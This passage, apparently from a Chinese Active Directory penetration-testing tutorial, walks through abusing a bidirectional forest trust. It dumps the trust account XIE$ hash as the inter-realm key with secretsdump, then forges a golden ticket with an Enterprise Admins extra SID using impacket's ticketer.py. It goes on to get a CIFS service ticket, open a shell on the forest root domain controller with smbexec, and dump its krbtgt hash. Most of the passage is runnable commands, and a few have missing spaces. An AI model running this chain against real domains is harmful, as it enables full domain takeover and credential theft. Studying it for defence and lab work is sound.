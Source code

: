 获得如下信息：

- 获得这个 rc4_hmac_nt 的值为：0f81015ca4691b714e9db485568e5e6b
- shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
- xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519

#### (2) powershell 获得 inter-realm key

**我们都知道，加`$`的是机器账号。但是在域林内，在 Users 组带`$`的是信任账号，信任账号的哈希就是 inter-realm key。**

我们可以在 shanghai.xie.com 的域控上执行如下命令查询，可以看到查询出来的是 `XIE$`账号，因为该域是和 xie.com 进行双向信任，因此信任账号是` XIE$`。

```
Get-ADUser -filter * -Properties DistinguishedName,samAccountType | ?{$_. name -like "*$"}
```

如图所示，查询出信任账号 XIE$。

![截图](4a59da8579e87abf1e8da1d20778e450.png)

然后可以使用 secretsdump 执行如下命令导出该信任用户 XIE$的哈希了。

```
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\XIE$"
```

如图所示，导出信任账号 XIE$的哈希，该哈希即是 inter-realm key

![截图](85bbe202bd77dcf0275de53285e8fa1a.png)

#### (3) impacket 攻击

通过上面手段获得 inter-realm key 后，可以利用 impacket 执行如下命令进行攻击：

```
#生成高权限的黄金票据
python3 ticketer.py -nthash 0f81015ca4691b714e9db485568e5e6b -domain-sid S-1-5-21-909331469-3570597106-3737937367 -extra-sid S-1-5-21-1313979556-3624129433-4055459191-519 -domain shanghai.xie.com -spn krbtgt/xie.com administrator
#导入票据
export KRB5CCNAME=administrator.ccache
#获得高权限的 cifs/ad.xie.com 的 ST 服务票据
python3 getST.py -debug -k -no-pass -spn cifs/ad.xie.com -dc-ip 10.211.55.4xie.com/administrator
#远程连接林根域控
python3 smbexec.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com
#导出林根域内 krbtgt 的哈希
python3 secretsdump.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com-just-dc-user "xie\krbtgt"
```
